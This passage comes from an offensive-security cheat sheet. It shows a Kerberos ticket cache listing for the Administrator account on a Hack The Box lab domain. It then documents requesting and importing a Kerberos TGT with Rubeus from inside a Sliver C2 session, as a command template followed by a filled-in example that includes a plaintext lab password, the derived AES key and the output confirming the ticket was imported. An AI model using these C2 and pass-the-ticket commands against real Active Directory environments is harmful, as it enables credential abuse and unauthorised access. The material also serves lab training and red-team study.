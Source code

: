 ```console {class="sample-code"}
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#1>     Client: Administrator @ ABSOLUTE.HTB
        Server: HTTP/DC.ABSOLUTE.HTB @ ABSOLUTE.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 9/24/2024 7:05:19 (local)
        End Time:   9/24/2024 17:03:25 (local)
        Renew Time: 0
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x8 -> ASC
        Kdc Called:
```

{{< /tabcontent >}}

---

### Kerberos Ticket (From C2)

{{< tab set5 tab1 >}}Sliver{{< /tab >}}
{{< tabcontent set5 tab1 >}}

#### 1. Request a Ticket

{{< tab set5-1 tab1 active >}}Password{{< /tab >}}{{< tab set5-1 tab2 >}}NTLM{{< /tab >}}
{{< tabcontent set5-1 tab1 >}}

```console
rubeus -- 'asktgt /user:<USER> /password:<PASSWORD> /enctype:<ENC_TYPE> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console {class="sample-code"}
sliver (helloworld) > rubeus -- 'asktgt /user:m.lovegod /password:AbsoluteLDAP2022! /enctype:AES256 /domain:ABSOLUTE.HTB /dc:DC.ABSOLUTE.HTB /ptt /nowrap'

[*] rubeus output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGT

[*] Using salt: ABSOLUTE.HTBm.lovegod
[*] Using aes256_cts_hmac_sha1 hash: 7455663292585851686A2C8B2DF22DCA5B0A3E84404DD480466E982E49B10554
[*] Building AS-REQ (w/ preauth) for: 'ABSOLUTE.HTB\m.lovegod'
[*] Using domain controller: fe80::71ce:9b94:4962:d202%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFpDCCBa ---[SNIP]--- VURS5IVEI=

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/ABSOLUTE.HTB
```